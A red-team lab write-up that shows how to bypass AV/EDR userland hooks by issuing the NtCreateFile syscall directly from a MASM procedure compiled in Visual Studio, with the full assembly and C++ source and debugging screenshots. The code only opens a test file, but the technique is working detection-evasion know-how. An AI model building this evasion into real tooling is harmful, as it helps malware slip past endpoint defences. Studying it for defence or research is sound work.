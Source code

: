 # Calling Syscalls Directly from Visual Studio to Bypass AVs/EDRs

AVs/EDR solutions usually hook userland Windows APIs in order to decide if the code that is being executed is malicious or not. It's possible to bypass hooked functions by writing your own functions that call syscalls directly.

For a more detailed explanation of the above, read a great research done by [@Cn33liz](https://twitter.com/Cneelis) from [@Outflank](https://twitter.com/OutflankNL): [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) - now you know what inspired me to do this lab.

With this lab, I wanted to follow along what Cn33liz did and go through the process of incorporating and compiling ASM code from the Visual Studio and simply invoking one syscall to see how it's all done by myself. In this case, I will be playing with `NtCreateFile` syscall as this will be enough to prove the concept.

Also, see my previous labs about API hooking/unhooking: [Windows API Hooking](../code-injection-process-injection/how-to-hook-windows-api-using-c++.md), [Bypassing Cylance and other AVs/EDRs by Unhooking Windows APIs](bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis.md)

## Setting Up Project Environment

Add a new file to the project, say `syscalls.asm` - make sure the main cpp file has a different name as the project will not compile:

![](../../.gitbook/assets/image%20%28116%29.png)

Navigate to project's `Build Customizations`:

![](../../.gitbook/assets/image%20%28130%29.png)

Enable `masm`:

![](../../.gitbook/assets/image%20%28169%29.png)

Configure the `syscalls.asm` file to be part of the project and compiled using Microsoft Macro Assembler:

![](../../.gitbook/assets/image%20%28244%29.png)

## Defining Syscalls

In the `syscalls.asm`, let's define a procedure `SysNtCreateFile` with a syscall number 55 that is reserved for `NtCreateFile` in [Windows 10](https://j00ru.vexillium.org/syscalls/nt/64/):

{% code title="syscalls.asm" %}
```csharp
.code
	SysNtCreateFile proc
			mov r10, rcx
			mov eax, 55h
			syscall
			ret
	SysNtCreateFile endp
end
```
{% endcode %}

The way we can find the procedure's prologue \(mov r10, rcx, etc..\) is by disassembling the function `NtCreateFile` \(assuming it's not hooked. If hooked, just do the same for, say `NtWriteFile`\) using WinDbg found in `ntdll.dll` module or within Visual Studio by resolving the function's address and viewing its disassembly there:

```cpp
FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
```

![](../../.gitbook/assets/image%20%28112%29.png)

Disassembling the address of the `NtCreateFile` in `ntdll` - note the highlighted instructions and we can skip the `test` / `jne` instructions at this point as they are irrelevant for this exercise:

![](../../.gitbook/assets/image%20%28242%29.png)

## Declaring the Calling C Function

Once we have the `SysNtCreateFile` procedure defined in assembly, we need to define the C function prototype that will call that assembly procedure. The `NtCreateFile` prototype per [MSDN](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile) is:

```cpp
// Using the NtCreateFile prototype to define a prototype for SysNtCreateFile. 
// The prorotype name needs to match the procedure name defined in the syscalls.asm
// EXTERN_C tells the compiler to link this function as a C function and use stdcall 
// calling convention - Important!

EXTERN_C NTSTATUS SysNtCreateFile(
	PHANDLE FileHandle, 
	ACCESS_MASK DesiredAccess, 
	POBJECT_ATTRIBUTES ObjectAttributes, 
	PIO_STATUS_BLOCK IoStatusBlock, 
	PLARGE_INTEGER AllocationSize, 
	ULONG FileAttributes, 
	ULONG ShareAccess, 
	ULONG CreateDisposition, 
	ULONG CreateOptions, 
	PVOID EaBuffer, 
	ULONG EaLength
);
```

Once we have the prototype, we can compile the code and check if the `SysNtCreateFile` function can now be found in the process memory by entering the function's name in Visual Studio disassembly panel:

![](../../.gitbook/assets/image%20%2845%29.png)

The above indicates that assembly instructions were compiled into the binary successfully and once executed, they will issue a syscall `0x55` that is normally called by `NtCreateFile` from within ntdll.

## Initializing Variables and Structures

Before testing `SysNtCreateFile`, we need to initialize some structures and variables \(like the name of the file name to be opened, access requirements, etc.\) required by the `NtCreateFile`:

![](../../.gitbook/assets/image%20%2813%29.png)

## Invoking the Syscall

Once the variables and structures are initialized, we are ready to invoke the `SysNtCreateFile`:

```cpp
SysNtCreateFile(
	&fileHandle, 
	FILE_GENERIC_WRITE, 
	&oa, 
	&osb, 
	0, 
	FILE_ATTRIBUTE_NORMAL, 
	FILE_SHARE_WRITE, 
	FILE_OVERWRITE_IF, 
	FILE_SYNCHRONOUS_IO_NONALERT, 
	NULL, 
	0
);
```

If we go into debug mode, we can see that all the arguments required by the `SysNtCreateFile` are being pushed on to the stack - as seen on the right disassembler panel where the break point on `SysNtCreateFile` is set:

![](../../.gitbook/assets/image%20%283%29.png)

If we continue debugging, the debugger eventually steps in to our assembly code that defines the `SysNtCreateFile` procedure and issues the syscall for `NtCreateFile`. Once the syscall finishes executing, a handle to the opened file `c:\temp\test.txt` is returned to the variable `fileHandle`:

![](../../.gitbook/assets/syscall-debugging.gif)

## So What?

What this all means is that if an AV/EDR product had hooked `NtCreateFile` API call, and was blocking any access to the file c:\temp\test.txt as part of the hooked routine, we would have bypassed that restriction since we did not call the `NtCreateFile` API, but called its syscall directly instead by invoking `SysNtCreateFile` - the AV/EDR would not have intercepted our attempt to open the file and we would have opened it successfully.

## Code

{% code title="syscalls.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include "winternl.h"
#pragma comment(lib, "ntdll")

EXTERN_C NTSTATUS SysNtCreateFile(
	PHANDLE FileHandle, 
	ACCESS_MASK DesiredAccess, 
	POBJECT_ATTRIBUTES ObjectAttributes, 
	PIO_STATUS_BLOCK IoStatusBlock, 
	PLARGE_INTEGER AllocationSize, 
	ULONG FileAttributes, 
	ULONG ShareAccess, 
	ULONG CreateDisposition, 
	ULONG CreateOptions, 
	PVOID EaBuffer, 
	ULONG EaLength);

int main()
{
	FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
	
	OBJECT_ATTRIBUTES oa;
	HANDLE fileHandle = NULL;
	NTSTATUS status = NULL;
	UNICODE_STRING fileName;
	IO_STATUS_BLOCK osb;

	RtlInitUnicodeString(&fileName, (PCWSTR)L"\\??\\c:\\temp\\test.txt");
	ZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
	InitializeObjectAttributes(&oa, &fileName, OBJ_CASE_INSENSITIVE, NULL, NULL);

	SysNtCreateFile(
		&fileHandle, 
		FILE_GENERIC_WRITE, 
		&oa, 
		&osb, 
		0, 
		FILE_ATTRIBUTE_NORMAL, 
		FILE_SHARE_WRITE, 
		FILE_OVERWRITE_IF, 
		FILE_SYNCHRONOUS_IO_NONALERT, 
		NULL, 
		0);

	return 0;
}
```
{% endcode %}

## References

{% embed url="https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile" %}

{% embed url="https://j00ru.vexillium.org/syscalls/nt/64/" %}

